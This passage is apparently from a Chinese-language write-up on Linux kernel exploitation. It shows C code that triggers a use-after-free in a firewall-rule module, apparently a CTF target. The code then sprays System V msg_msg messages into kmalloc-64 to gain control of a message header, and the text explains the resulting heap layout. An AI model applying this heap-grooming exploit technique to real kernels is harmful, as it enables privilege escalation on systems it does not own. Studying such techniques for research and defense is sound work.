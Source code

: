```c
{
    perror("msgget");
    exit(1);
}

if ((qid[1] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1)
{
    perror("msgget");
    exit(1);
}

// [2] 调用 add_rule() 向firewall_rules_in添加inbound规则，再调用 duplicate_rule() 复制到 firewall_rule_out，释放后还能从 firewall_rule_out[1] 访问，触发UAF
add_rule(0, buff, INBOUND);
duplicate_rule(0, INBOUND);
delete_rule(0, INBOUND);

send_msg(qid[0], 0x40, 'A'); // [3] 调用send_msg()，也即对msgsnd()的包装函数，分配3个消息。第1个大小为0x40, 位于队列 QID #0, 由于和刚刚释放的rule位于同一个kmalloc-64，所以能修改该消息的msg_msg头结构。
send_msg(qid[1], 0x40, 'B'); // [4] 第2个消息在队列QID #1中，大小为0x40字节
send_msg(qid[1], 0x1ff8, 0); // [5] 第3个消息在队列QID #1中，大小为0x1ff8字节

[...]
```

**消息布局**： **QID #0** 消息队列——橘色部分是第1个消息，堆块大小0x40，可通过 `edit_rule()` 完全控制。 **QID #1**消息队列——第1个消息，堆块大小为0x40，其 `msg_msg->m_list.prev` 指向消息队列 **QID #1**，`m_list.next`指向第2个消息，占两个`kmalloc-4096`。

![2-1](/images/posts/msg_msg/2-1.png)

